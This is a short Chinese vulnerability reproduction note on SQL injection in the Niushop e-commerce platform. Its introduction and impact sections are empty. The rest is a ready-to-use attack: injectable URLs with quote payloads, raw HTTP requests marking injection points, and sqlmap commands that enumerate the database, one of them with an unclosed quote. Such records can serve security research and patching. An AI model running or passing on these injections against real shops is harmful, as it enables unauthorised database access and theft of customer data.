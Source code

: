 Niushop sql注入
===============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### sql注入（一）

#### order参数：

    http://0-sec.org/index.php/wap/goods/getGoodsListByConditions?category_id=1&brand_id=2&min_price=3&max_price=4&page=5&page_size=6&order=7%27&attr_array[][2]=8&spec_array[]=9

#### attr\_array参数：

    http://0-sec.org/index.php/wap/goods/getGoodsListByConditions?category_id=1&brand_id=2&min_price=3&max_price=4&page=5&page_size=6&order=7&attr_array[][2]=8%27&spec_array[]=9

#### 直接上sqlmap

    sqlmap -u "http://0-sec.org/index.php/wap/goods/getGoodsListByConditions?category_id=1&brand_id=2&min_price=3&max_price=4&page=5&page_size=6&order=7&attr_array[][2]=8*&spec_array[]=9" --random-agent --batch --dbms "mysql"
    sqlmap -u "http://0-sec.org/index.php/wap/goods/getGoodsListByConditions?category_id=1&brand_id=2&min_price=3&max_price=4&page=5&page_size=6&order=7&attr_array[][2]=8*&spec_array[]=9" --random-agent --batch --dbms "mysql" --current-db

### sql注入（二）

    GET /index.php?s=/wap/Goods/promotionZone&group_id=*&page=1 HTTP/1.1
    Host: 0-sec.org
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://172.16.209.129:8085/index.php/wap/goods/promotionZone
    X-Requested-With: XMLHttpRequest
    Cookie: PHPSESSID=uolpfnofnhcmdnamo55d883bk4; admin_type=1; workspaceParamSupplier=index%7CGoods; CNZZDATA009=30037667-1536735
    Connection: close

将数据包保存为niushop.txt

    sqlmap -r niushop.txt  --random-agent --batch --dbms "mysql"

### sql注入（三）

    POST /index.php?s=/wap/Goods/goodsSearchList HTTP/1.1
    Host: 0-sec.org
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://172.16.209.129:8086/index.php/wap/goods/goodsSearchList
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 66
    Cookie: PHPSESSID=uolpfnofnhcmdnamo55d883bk4; admin_type=1; workspaceParamSupplier=index%7CGoods; CNZZDATA009=30037667-1536735
    Connection: close
    Cache-Control: max-age=0

    sear_name=&sear_type=1&order=*&sort=asc&controlType=&shop_id=0&page=1

数据包保存为niushop.txt

    sqlmap -r niushop.txt  --random-agent --batch --dbms "mysql
